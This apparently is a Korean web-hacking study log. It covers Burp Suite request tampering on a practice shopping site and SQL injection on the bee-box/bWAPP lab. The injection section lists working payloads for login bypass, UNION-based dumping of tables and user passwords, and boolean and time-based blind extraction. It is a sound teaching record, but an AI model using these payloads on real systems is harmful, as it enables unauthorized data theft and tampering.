






어제에 이어서 테스트

비밀번호 입력해서 들어가고


이부분 인덱스값을 변경해준다.


지금까지 한 작업 요약

1. 회원가입 뚫기
2. 비밀글 뚫기
3. 다른사용자 게시물 수정

마우스 우클릭으로 repeat로 보내고, 번호 바꾸고 send 눌러주면 된다. 


이번에는 1~26번까지 내용 바꿔보겠다. intruder로 보내고 아래와 같이 설정해준다.


이렇게 바뀌는과정이 나오고



게시판도 바뀌어있다.


참고로 변수 하나면 sniper, 


두개 이상이면 cluster


1. 참고로 실무에서 고객글 절대로 건들면 안 된다.
2. 두개의 본인 아이디 만들고 테스트하자

---

개인정보 수정에서 주소를 아예 없애거나 버프수이트로 수정


reponse에서 자바스크립트 값 넘어가는 html쪽 수정해준다


변경완료


이제 상품 주문 조작해보자. 금액은 나와있는데



버프 스윗에 안나오는걸로 보아 서버단에서 금액을 처리하는 것으로 보인다.


그다음 결제창으로 넘어갈 때, price를 조작해보자


그런데 안바뀌어있다 왜그럴까?


서버단에서는 처리되었다.



---

## SQL Injection

SQL 쿼리로 데이터 조작



또는 `'or 1=1--` 로 사용한다. admin 뒤에 무조건 참이 나오게 하여 로그인 되게 하는 방식. 요즘 이런게 먹힐리는 없다.


<br/>

다른거 뚫어보자. 쿼리문이 노출되었다. 이거 자체가 문제인데, 일단 뚫어보자.

다음과 같이 아이디에 '(쉼표), 비밀번호에 f 넣어보자. 다음과 같이 두 부분에 들어간 것을 확인할 수 있다.


pwscompare는 암호화된 비밀번호를 맞으면 1, 틀리면 0을 리턴하는 내장함수이다. 여기서 리턴을 무엇으로 하냐에 따라 인젝션 쿼리가 달라진다.

1. 리턴이 1일 때,

```
ID : test
PW : a',pwd)=1) or (1=1) or (pwdcompare('a
```

2. 리턴이 0일 때,

```
ID : test
PW : ',pwd)=0)--
```

<br/>

이번에는 bee box에서 진행해보자.

vm에서 실행 후 root, bug로 mysql접속 후 bWAPP db를 사용하자



모든 영화 확인하면, 다음과 같이 나온다.


이제 bee box에서 인젝션 쿼리 작성해보자. 똑같이 나온다.


이 쿼리를 처리하는 부분에서 확인해보자 다음 경로의 sqli_1.php를 확인해보자


title을 이런방법으로 처리해준다. 또한 싱글 쿼테이션을 넣었을 떄 다음과 같이 나오는 것으로 보아 SQL인젝션이 가능해보인다. 


<br/>

### 컬럼 정보 알아내기

컬럼의 정보를 알아보자. 7로 정렬하면


하지만 8로 정렬하면 뜨지 않는다. 여기서 우리는 눈에는 5개의 컬럼이 보이지만 이 테이블은 7개의 컬럼으로 이루어진 것을 알 수 있다.


이번엔 해킹용 쇼핑몰로 이동해 버프스윗을 이용해보자. 게시판으로 이동해 쿼리 작성해주고


이 부분을 intruder 넘버링 해보자


다음과 같이 설정하고 실행하면


length가 갑자기 변한다. 여기서 order by 쿼리의 결과가 달라졌다.


<br/>

또 다른 방법 union을 사용해보자. 다음과 같이 들어간다.


하지만 컬럼을 초과하면 다음과 같이 에러가 발생한다. 이제 다들 눈치 챘을 것이다.



bee box에서 테스트해보자. 맨 앞을 DB에 없는 데이터(여기서는 0)로 놓으면 컬럼만 깔끔하게 볼 수 있다.


버전을 확인해보자. 해킹에 있어서 버전은 매우 중요하다.

```
0' union select 1,@@version,3,4,5,6,7#
```


여기도 응용 가능

```
0' union select 1,2,@@version,4,5,6,7,8,9,10,11,12,13,14,15,16,17,18,19,20,21,22,23,24#
```


information_schema db에 대해 좀 안다면,

```
0' union select 1,table_name,3,4,5,6,7 from information_schema.tables#
```


마찬가지로

```
0' union select null, table_schema, table_name, column_name, null, null, null from information_schema.columns where table_schema!='mysql' and table_schema!=
information_schema#

0' union select null, table_schema, table_name, column_name, null, null, null from table_schema#

0' union select 1,login,3,4,password,6,7 from users#
```

sha1과 md5는 뚫기 쉽다.

---

여기선 무엇을 해야할까? 주소창에 해야한다.


그럼 얘는 무엇으로 해야할까? 버프스윗으로 해야한다.


얘는 true false만 나온다. db가 있다 없다라고만


이렇게 나오면 거짓

```
' or 1=1 and length(database())=4#
```


이렇게 나오면 참. 이제 우리는 db의 길이가 5라는 것을 알아냈다.

```
' or 1=1 and length(database())=5#
```


이거랑 같음


데이터베이스 첫번째 문자 찾기

```
' or 1=1 and substring(database(),1,1)='b'#
또는아스키코드값으로 찾기 가능
' or 1=1 and ascii(substring(database(),2,1))=98#
```


```
' or 1=1 and substring(database(),2,1)='w'#
```

얘도 참 나온다.

이렇게 일일이 한 글자씩 찾는 건 힘들어서 보통 오토툴을 만들어 공격한다.

### blind - time based

sleep을 걸어 실행되면 참 안 되면 거짓을 판별하는 방법

```
' or 1=1 and sleep(5)#
' or 1=1 and length(database())=5 and sleep(1)#
```